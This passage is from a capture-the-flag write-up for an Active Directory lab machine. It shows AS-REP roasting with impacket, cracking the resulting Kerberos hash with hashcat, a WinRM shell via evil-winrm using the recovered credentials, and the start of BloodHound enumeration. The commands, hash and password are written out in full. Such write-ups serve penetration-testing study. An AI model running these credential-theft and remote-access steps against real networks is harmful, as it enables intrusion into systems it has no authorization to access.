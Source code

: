 # Foothold
### Testing AS-REP Roasting with usernames.txt
We will use the list with usernames we created to test AS-REP Roasting on each of them:

```shell
impacket-GetNPUsers htb.local/ -usersfile usernames.txt -dc-ip 10.129.141.177
```
We got a successful result with the user svc-alfresco, giving us a hash:

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:0619a6549fb42b578b1d4797888ad8d5$c04e2d7424c6d93665ee9339c5e0630427eb6ab42c18eba869db978b3fef8a29c348c5fbbf72c82f18588fe47ed684e4870fb4b19cc08b3b800e5b87190407d5da3eb442c62c9b760e1cadc1065aac79febe2ef6f2139c418ab6d98acd33b037bf8f25c22cc3351ee7b0403456a6c0bd49e73da3b80d51c3a6c53cd46e75183367891c2da909af245fc0593d3776f11e572fe1b06fa68fe19036edf50b220ccaf0a3284ed3f01866ad6a31b9cbb6db8c299ca141ac56f379f6c9971ad177704ffd5522ed2da054d620ad75207049c7abc84a64dadec0a1fb854b841784f178e585b21d65bb7b
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Cracking the hash:

```shell
hashcat -m 18200 -a 0 svc-alfresco_hash.txt /usr/share/wordlists/rockyou.txt
```
We managed to successfully crack the hash of svc-alfresco, giving us the following credentials:

```shell
# Username
svc-alfresco
# Password
s3rvice
```

### WinRM access as user svc-alfresco using evil-winrm
Using the credentials we got for the user svc-alfresco, we were able to get WinRM access using evil-winrm:

```shell
evil-winrm -i 10.129.141.177 -u svc-alfresco -p 's3rvice'
```
### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\svc-alfresco\Desktop\user.txt
```
# Privilege Escalation
### Enumerating Active Directory Domain with BloodHound
We will use the credentials of svc-alfresco and bloodhound-python to collect data about the domain and enumerate it using BloodHound.
